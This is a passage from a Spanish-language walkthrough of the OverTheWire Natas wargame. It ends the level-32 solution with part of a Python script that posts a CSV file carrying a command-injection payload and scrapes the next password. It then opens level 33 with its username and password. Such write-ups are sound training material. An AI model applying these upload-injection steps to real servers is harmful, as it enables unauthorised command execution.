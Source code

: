 ```python
# Envía la solicitud POST
response = session.post(url, data=data, files=files, auth=auth)

# Utiliza una expresión regular para extraer la contraseña de la respuesta
password_regex = re.compile(r'<th>(.+)\n</th>')
next_password = password_regex.findall(response.content.decode('utf-8'))[0]
print(next_password)

# Función para guardar credenciales 
def save_credentials(level, password):
    print(f"Credenciales para el nivel {level} guardadas: {password}")

# Guarda las credenciales para el siguiente nivel
save_credentials(33, next_password)
```

Este script realiza lo siguiente:

1. **Configura las Credenciales**: Utiliza el nombre de usuario y la contraseña para el nivel 32 de Natas.
2. **Envía una Solicitud POST**: Envía una solicitud POST al servidor, incluyendo un archivo CSV con un payload y datos adicionales que engañan al servidor para ejecutar un comando.
3. **Extrae la Contraseña**: Analiza la respuesta del servidor para encontrar la contraseña del siguiente nivel usando una expresión regular.
4. **Guarda las Credenciales**: Simula el almacenamiento de las credenciales del siguiente nivel (nivel 33).

<figure><img src="../../../.gitbook/assets/image (412).png" alt=""><figcaption></figcaption></figure>

### NIVEL 33

Ingresamos las credenciales para el nivel 33.

* **Usuario:** `natas33`
* **Contraseña:** `2v9nDlbSF7jvawaCncr5Z9kSzkmBeoCJ`

Tras iniciar sesión, nos encontramos con la página de inicio del **Nivel 33**. Se nos muestra para subir un Firmware.

<figure><img src="../../../.gitbook/assets/image (413).png" alt=""><figcaption></figcaption></figure>
